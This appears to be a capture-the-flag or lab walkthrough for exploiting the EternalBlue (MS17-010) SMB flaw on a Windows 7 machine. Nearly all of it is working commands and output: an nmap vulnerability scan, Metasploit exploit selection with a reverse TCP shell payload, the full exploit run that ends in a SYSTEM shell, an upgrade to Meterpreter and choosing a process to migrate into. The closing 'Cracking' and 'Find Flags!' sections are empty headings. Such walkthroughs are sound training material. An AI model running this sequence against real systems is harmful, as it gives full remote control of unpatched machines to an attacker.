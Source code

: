 # Exploiting Windows and Eternal Blue
## Recon
* Scan and learn what exploit the target is vulnerable to.
```
nmap -sV -vv --script vuln -oN TARGET_IP_scan.nmap TARGET_IP
```
  * `-sV` attempt to determine version of running services.
  * `-vv` for even more verbosity.
  * `--script vuln` runs all scripts in the NSE "vuln" category to check for specific known vulnerabilities.
    * Generally only reports results if they are found.
  * `-oN` saves results in "normal" format.
* Target is vulnerable to ms17-010.
```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```
> EternalBlue affects unpatched Windows versions earlier than 8 by exploiting a vulnerability in the SMBv1 protocol to cause a buffer overflow that ultimately leads to remote code execution. EternalBlue was the main attack vector used by the WannaCry ransomware to target and exploit it’s victims.
## Gain Access
* Exploit the machine and gain a foothold.
#### 1. Start Metasploit.
```
msfconsole
```
#### 2. Find exploitation code to run against the target.
```
search eternalblue type:exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
  0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
#### 3. Select exploit.
```
use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
#### 4. Show available exploit options.
```
show options
```
  * `set rhosts TARGET_IP`.
  * `set payload windows/x64/shell/reverse_tcp`.
#### 5. Execute exploit.
```
exploit

[*] Started reverse TCP handler on 10.10.173.11:4444 
[*] 10.10.38.72:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.38.72:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.38.72:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.38.72:445 - The target is vulnerable.
[*] 10.10.38.72:445 - Connecting to target for exploitation.
[+] 10.10.38.72:445 - Connection established for exploitation.
[+] 10.10.38.72:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.38.72:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.38.72:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.38.72:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.38.72:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.38.72:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.38.72:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.38.72:445 - Sending all but last fragment of exploit packet
[*] 10.10.38.72:445 - Starting non-paged pool grooming
[+] 10.10.38.72:445 - Sending SMBv2 buffers
[+] 10.10.38.72:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.38.72:445 - Sending final SMBv2 buffers.
[*] 10.10.38.72:445 - Sending last fragment of exploit packet!
[*] 10.10.38.72:445 - Receiving response from exploit packet
[+] 10.10.38.72:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.38.72:445 - Sending egg to corrupted connection.
[*] 10.10.38.72:445 - Triggering free of corrupted buffer.
```
#### 6. Confirm exploit has run properly.
```
[*] Command shell session 2 opened (10.10.173.11:4444 -> 10.10.38.72:49185) at 2024-02-20 09:58:59 +0000
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
## Escalate
* Convert shell to meterpreter shell in metasploit.
* `back` to move back to main Metasploit console.
```
search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

```
```
use 0
show options
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Wi
                                       ll try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```
* Set `SESSION` option to 2.
  * Session 2 is active reverse shell from target.
* Run exploit.
```
exploit
```
* Shell upgraded to Meterpreter.
```
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.173.11:4433 
[*] Post module execution completed
```
* Switch to new Meterpreter shell.
```
sessions -i 3
[*] Starting interaction with 3...

meterpreter >
```
* Verify NT AUTHORITY\SYSTEM escalation.
```
getsystem
[-] Already running as SYSTEM
shell
Process 9968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
* `CTRL+Z` to background the shell.
* `ps` lists all of the running processes.
  * Identify process running as NT AUTHORITY\SYSTEM and note Process ID (far left column).
    * `spoolsv.exe` is good choice as it is generally stable and respawns upon failure.
```
9528   712    spoolsv.exe       x64   0        NT AUTHORITY\SYSTEM
```
* Migrate
## Cracking
## Find Flags!

